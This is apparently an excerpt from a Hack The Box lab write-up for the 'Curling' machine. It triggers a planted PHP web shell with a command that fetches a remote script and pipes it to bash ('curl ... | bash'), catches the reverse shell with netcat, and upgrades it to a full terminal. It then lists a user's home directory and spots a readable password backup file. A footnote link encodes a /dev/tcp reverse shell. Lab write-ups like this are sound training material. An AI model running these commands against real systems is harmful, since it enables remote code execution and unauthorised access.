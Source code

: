 	nc -lvnp 9001

### Execute reverse shell script

	http://10.129.171.59/templates/protostar/htb.php?pwn=curl 10.10.17.201/reverse_shell.sh | bash

		nc -lvnp 9001
	
```text
listening on [any] 9001 ...
connect to [10.10.17.201] from (UNKNOWN) [10.129.171.59] 37656
bash: cannot set terminal process group (1542): Inappropriate ioctl for device
bash: no job control in this shell
www-data@curling:/var/www/html/templates/protostar$
```

## Lateral Movement

### Upgrade terminal for improved functionality (arrow keys, etc.)

`www-data@curling:/var/www/html/templates/protostar$ ^[[D^[[A^[[C^[[D^[[A^[[C`

	which python
	which python3
	
#### Spawn a bash terminal

	python3 -c 'import pty;pty.spawn("/bin/bash")'

#### Background it
	<Ctrl+Z>

#### Change terminal line settings

`stty raw -echo;fg`
	
```bash
raw		// same as -ignbrk -brkint -ignpar -parmrk -inpck -istrip -inlcr -igncr -icrnl -ixon -ixoff -icanon -opost -isig -iuclc -ixany -imaxbel -xcase min 1 time 0
-echo	// echo input characters
;fg		// plays nice with zsh
```

#### Enable clear screen functionality

	export TERM=xterm

### Reconnaissance of /home/floris

```bash
drwxr-x--- 2 root   floris 4096 May 22  2018 admin-area/
-rw-r--r-- 1 floris floris 1076 May 22  2018 password_backup	// other group read permission
-rw-r----- 1 floris floris   33 May 22  2018 user.txt
```


[^1]: https://www.exploit-db.com/exploits/46200
[^2]: https://www.cvedetails.com/vulnerability-list/vendor_id-3496/Joomla.html
[^3]: https://explainshell.com/explain?cmd=bash+-i+%3E%26+%2Fdev%2Ftcp%2F10.0.0.1%2F8080+0%3E%261
[^4]: https://stackoverflow.com/questions/42884087/how-and-when-to-use-dev-shm-for-efficiency